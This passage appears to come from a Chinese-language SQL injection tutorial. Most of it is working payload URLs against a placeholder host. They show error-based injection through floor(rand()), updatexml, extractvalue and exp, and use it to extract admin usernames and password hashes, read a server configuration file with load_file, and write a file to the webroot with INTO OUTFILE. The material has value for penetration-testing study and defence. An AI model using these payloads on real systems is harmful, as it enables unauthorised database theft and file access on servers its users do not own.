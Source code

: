 查询第二个字段 0x61646D696E LIMIT 0,1 这个0 往后推 

查询数据(可能查不出来)

```http
http://target_sys.com/mysqlinj.php?id=-1 and (select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

updatexml方法查询数据

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
```

上面这种查询 只能查询32位 所以有些部分查询不出来。可以先查询密文 或者先查询长度的 再进行字符长度的截取。

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct LENGTH(concat(0x23,username,0x3a,password,0x23)) FROM admin limit 0,1),0x7e),1)
```

LENGTH 函数 查询的长度为40

SUBSTRING()字符串截取函数

查询 1-32 	admin:e10adc3949ba59abbe56e057

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct SUBSTRING(concat(0x23,username,0x3a,password,0x23),1,32) FROM admin limit 0,1),0x7e),1)
```

查询32-40 f20f883e

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct SUBSTRING(concat(0x23,username,0x3a,password,0x23),33,40) FROM admin limit 0,1),0x7e),1)
```

 再后将字符并接起来就是完整的的数据

 admin:e10adc3949ba59abbe56e057f20f883e

## 5、读取文件操作

**extractvalue 读取文件**

```http
http://target_sys.com/mysqlinj.php?id=-1 and (extractvalue(1,concat(0x7e,(select load_file('C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.php')),0x7e)))
```

**exp方法读取(最好用这种)**

```http
http://target_sys.com/mysqlinj.php?id=1 and (exp(~(select*from(select load_file('C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.php'))a))); 
```

写文件

```http
http://target_sys.com/mysqlinj.php?id=-1 and exp(~(select*from(select 'hello')a)) into outfile 'C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.txt';
```

写文件默认就是只能写入0行到文件里面 ,需配合其他漏洞使用